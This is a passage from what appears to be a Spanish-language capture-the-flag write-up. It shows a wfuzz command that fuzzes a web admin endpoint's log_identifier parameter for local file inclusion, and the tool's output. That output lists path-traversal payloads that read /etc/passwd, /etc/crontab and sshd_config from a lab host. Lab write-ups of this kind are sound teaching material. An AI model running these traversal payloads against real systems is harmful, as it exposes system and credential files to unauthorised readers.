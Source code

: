 Podemos comprobarlo con la herramienta **wfuzz**, usando la cookie de sesión actual y la ruta en donde se usa este parámetro:
```bash
wfuzz -c --hc=404 --hh=186 -t 300 -b 'session=cookie' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://10.10.11.88:8000/admin/get_system_log?log_identifier=FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.88:8000/admin/get_system_log?log_identifier=FUZZ
Total requests: 929

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000131:   200        23 L     206 W      1136 Ch     "/etc/crontab"                                                                                                               
000000138:   200        64 L     64 W       866 Ch      "/etc/group"                                                                                                                 
000000023:   200        38 L     54 W       1982 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"                                                                                     
000000021:   500        1 L      8 W        152 Ch      "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow"                                                        
000000311:   200        38 L     54 W       1982 Ch     "../../../../../../etc/passwd&=%3C%3C%3C%3C"                                                                                 
000000016:   200        38 L     54 W       1982 Ch     "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"                                          
000000017:   500        1 L      8 W        124 Ch      "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow"                                          
000000020:   200        38 L     54 W       1982 Ch     "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"                                                        
000000024:   500        1 L      8 W        135 Ch      "..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow"                                                                                     
000000408:   500        1 L      8 W        116 Ch      "/./././././././././././etc/shadow"                                                                                          
000000409:   500        1 L      8 W        124 Ch      "/../../../../../../../../../../etc/shadow"                                                                                  
000000412:   500        1 L      8 W        94 Ch       "/etc/shadow"                                                                                                                
000000413:   500        1 L      8 W        155 Ch      "../../../../../../../../../../../../etc/shadow"                                                                             
000000400:   200        41 L     120 W      911 Ch      "/etc/rpc"                                                                                                                   
000000399:   200        23 L     142 W      920 Ch      "/etc/resolv.conf"                                                                                                           
000000135:   200        12 L     90 W       675 Ch      "/etc/fstab"                                                                                                                 
000000422:   200        131 L    429 W      3545 Ch     "/etc/ssh/sshd_config"                                                                                                       
000000423:   500        1 L      8 W        95 Ch       "/etc/sudoers"                                                                                                               
000000237:   200        2 L      4 W        20 Ch       "/etc/issue"                                                                                                                 
000000206:   200        9 L      26 W       234 Ch      "../../../../../../../../../../../../etc/hosts"                                                                              
000000259:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                                  
000000258:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                               
000000250:   200        20 L     65 W       526 Ch      "/etc/nsswitch.conf"                                                                                                         
```